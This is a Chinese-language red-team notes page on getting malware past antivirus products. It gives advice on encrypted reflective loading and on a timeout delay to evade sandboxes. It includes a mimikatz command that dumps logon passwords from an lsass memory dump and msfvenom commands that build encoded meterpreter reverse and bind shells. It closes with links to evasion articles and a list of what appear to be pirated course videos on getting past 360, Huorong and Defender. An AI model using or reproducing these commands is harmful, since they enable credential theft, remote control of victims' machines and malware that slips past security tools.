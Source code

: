 普通 exe 免杀使用 py 或 go 等加密后反射加载，基本上就可以过大部分杀软了。
启动后 cmd /c timeout 延迟等待N秒用来反沙箱

procdump+mimikatz,  mimikatz很多时候都会被杀掉，可以通过procdump+mimikatz的方式 进行绕过。 或 任务管理器—进程—显示所有用户进程—找到lsass(Local Security Authority Process)—右键“创建转储文件”
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit">pass.txt

msf

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

# Article

- rw\_bypass\_免杀\_BypassAV.html
- [不会写代码，但你可以免杀三件套](https://mp.weixin.qq.com/s/NqH7kKS7XQmxaVUDacocZA)
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
- [一文读懂 DLL 劫持与白+黑样本原理](https://mp.weixin.qq.com/s/UZjLNPna7R2ZLs3r9kJEQg)
- [浅谈dll劫持-白加黑免杀指南](https://mp.weixin.qq.com/s/V2p58KMsyQSY5tcwPuVPmg)
- [写外挂时偶然想到的免杀思路](https://mp.weixin.qq.com/s/0c6D2aw9xk-NPKYuCkvoIg)
- [Rust免杀 - Shellcode加载与混淆](https://mp.weixin.qq.com/s/5SP0FerVIsEk3P-eH3PmKw)
- [常用工具免杀-助你护网](https://mp.weixin.qq.com/s/HBLpmCAoPRzvWq5akmLBTw)
- [『杂项』利用 Windows 白名单免杀](https://mp.weixin.qq.com/s/oZLhkFDKOxFUqePqT6HoRA)
7-项目七 渗透有防护的内网域_18 msf 正向木马免杀过360 全家桶【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇01mimikatz免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇02PrintSpoofer免杀过360杀毒360安全卫士【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇03MSF用加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇04Python3Cobaltstrikeshellcode免杀过360卫士和360杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇05Golang加载器Cobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇06GolangCobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇07c#xor加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇08Cobaltstrike免杀过360和WindowsDefender【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇09msf加密壳免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
Cobalt Strike 第十五章 使用多种方法免杀 payload【瑞客论坛 www.ruike1.com】.docx
暗月实战项目八19metasploit免杀杀毒软件并且开启远程终端登录目标服务器【瑞客论坛 www.ruike1.com】.mp4
暗月实战项目十一05frp反向代理msf到公网msf免杀过火绒上线【瑞客论坛 www.ruike1.com】.mp4